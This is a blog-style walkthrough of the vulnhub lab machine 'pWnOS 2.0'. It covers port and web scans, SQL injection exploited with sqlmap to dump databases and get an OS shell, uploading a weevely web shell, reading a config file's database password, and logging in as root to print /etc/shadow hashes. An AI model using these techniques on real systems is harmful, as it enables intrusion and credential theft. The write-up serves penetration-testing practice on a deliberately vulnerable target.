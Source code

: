 ```yaml
---
layout: post
title: "pWnOS: 2.0"
date: 2015-05-22 08:40:50 +0200
comments: true
categories: [vulnhub, pwnos]
---
```

Image: [pWnOS: 2.0 (Pre-Release)](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)

Nmap output:
{% codeblock %}
root@kali32:~# nmap 10.10.10.100 -sV -p-

Starting Nmap 6.47 ( http://nmap.org ) at 2015-04-27 14:45 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 14:45 (0:00:06 remaining)
Nmap scan report for 10.10.10.100
Host is up (0.00030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
MAC Address: 00:0C:29:61:0D:EB (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.54 seconds
{% endcodeblock %}

Nikto output:
{% codeblock %}
root@kali32:~# nikto -h 10.10.10.100
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.100
+ Target Hostname:    10.10.10.100
+ Target Port:        80
+ Start Time:         2015-04-27 14:46:59 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.2.17 (Ubuntu)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/5.3.5-1ubuntu7
+ The anti-clickjacking X-Frame-Options header is not present.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Apache/2.2.17 appears to be outdated (current is at least Apache/2.4.7). Apache 2.0.65 (final release) and 2.2.26 are also current.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3092: /info/: This might be interesting...
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ Server leaks inodes via ETags, header found with file /icons/README, inode: 1311031, size: 5108, mtime: Tue Aug 28 12:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ /login.php: Admin login page/section found.
+ 7331 requests: 0 error(s) and 22 item(s) reported on remote host
+ End Time:           2015-04-27 14:47:09 (GMT2) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endcodeblock %}

There is a SQL injection in email, we can see an error message trying to log in (filling an email field with the single quote):
{% codeblock %}
http://10.10.10.100/login.php:

An error occurred in script '/var/www/login.php' on line 47: Query: SELECT *
FROM users WHERE email=''' AND pass='86f7e437faa5a7fce15d1ddcb9eaeaea377667b8'
AND active IS NULL 

MySQL Error: You have an error in your SQL syntax; check the
manual that corresponds to your MySQL server version for the right syntax to
use near '86f7e437faa5a7fce15d1ddcb9eaeaea377667b8' AND active IS NULL' at line 1 
{% endcodeblock %}

Using Sqlmap we dump the whole databases:
{% codeblock %}
$ sqlmap -u "http://10.10.10.100/login.php" --forms --dump-all
[ .. snip .. ]
email=test@test.com&pass=123&submit=Login&submitted=TRUE
{% endcodeblock %}

We try to crack hashes but without success in the reasonable time:
{% codeblock %}
root@kali32:~/.sqlmap/output/10.10.10.100/dump# cat mysql/user-f3649c95.csv | cut -d, -f2-3 | sed 's#,#:#' > /tmp/hashes.csv
root@kali32:~/.sqlmap/output/10.10.10.100/dump# john --format=mysql-sha1 /tmp/hashes.csv 
[ .. snip .. ]
root@kali32:~/.sqlmap/output/10.10.10.100/dump# cat ch16/users.csv 
user_id,pass,email,active,last_name,first_name,user_level,registration_date
1,c2c4b4e51d9e23c02c15702c136c3e950ba9a4af,admin@isints.com,NULL,Privett,Dan,0,2011-05-07 17:27:01
{% endcodeblock %}

With OS Shell functionality of Sqlmap (--os-shell), we was able to obtain shell with the web user privileges:
{% codeblock %}
os-shell> cat /etc/passwd
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:
---
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:0:0:MySQL Server,,,:/root:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
landscape:x:104:110::/var/lib/landscape:/bin/false
dan:x:1000:1000:Dan Privett,,,:/home/dan:/bin/bash
{% endcodeblock %}

As we can see, MySQL daemon is running as root (=uid 0), this is also the
reason, why we were able to write something with database user to /var/www
(owned by www-data), that's not common.

We can also upload weevely to the remote system and use it as the more sophisticated shell:
{% codeblock %}
root@kali32:~# sqlmap -u "http://10.10.10.100/login.php" --data "email=test@test.com&pass=123&submit=Login&submitted=TRUE" --file-write="/var/www/weevely.php.txt" --file-dest=/var/www/w.php
{% endcodeblock %}

We found the database credentials, however they didn't work:
{% codeblock lang:php %}
www-data@web:/var/www $ cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'goodday');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
{% endcodeblock %}

That was strange, because the web application is connected. After a little more digging, we found this suspicious file:
{% codeblock lang:php %}
www-data@web:/var/www $ cat ../mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>
{% endcodeblock %}

The [blog application](http://10.10.10.100/blog/index.php) uses the text files instead of MySQL. We were only
able to locate the password file, without cracking it:
{% codeblock %}
www-data@web:/var/www $ cat blog/config/password.txt
$1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/
{% endcodeblock %}

Using root / root@ISIntS we can finally log in via ssh as root:
{% codeblock %}
root@web:~# cat /etc/shadow 
root:$6$aO1TGdyc$XfiMyap/.QYhjIip5xxrgpO1ydlo.DQXns3fYYLt1hiH4Fp0PJP4TMoDSg3wpAFklF03dV2cUDL04YcR9bSSI/:15101:0:99999:7:::
daemon:*:15101:0:99999:7:::
bin:*:15101:0:99999:7:::
sys:*:15101:0:99999:7:::
sync:*:15101:0:99999:7:::
games:*:15101:0:99999:7:::
man:*:15101:0:99999:7:::
lp:*:15101:0:99999:7:::
mail:*:15101:0:99999:7:::
news:*:15101:0:99999:7:::
uucp:*:15101:0:99999:7:::
proxy:*:15101:0:99999:7:::
www-data:*:15101:0:99999:7:::
backup:*:15101:0:99999:7:::
list:*:15101:0:99999:7:::
irc:*:15101:0:99999:7:::
gnats:*:15101:0:99999:7:::
nobody:*:15101:0:99999:7:::
libuuid:!:15101:0:99999:7:::
syslog:*:15101:0:99999:7:::
mysql:!:15101:0:99999:7:::
sshd:*:15101:0:99999:7:::
landscape:*:15101:0:99999:7:::
dan:$6$Iu1ipXkP$F9Jdj7JNf56/UjrXgOTks3mqYO6J/ErWUtf.EWr2AT8lv6aHy3K6Ywjmd7HCUswgiEYDHMwq/aqwJToXl0ERs1:15101:0:99999:7:::
{% endcodeblock %}
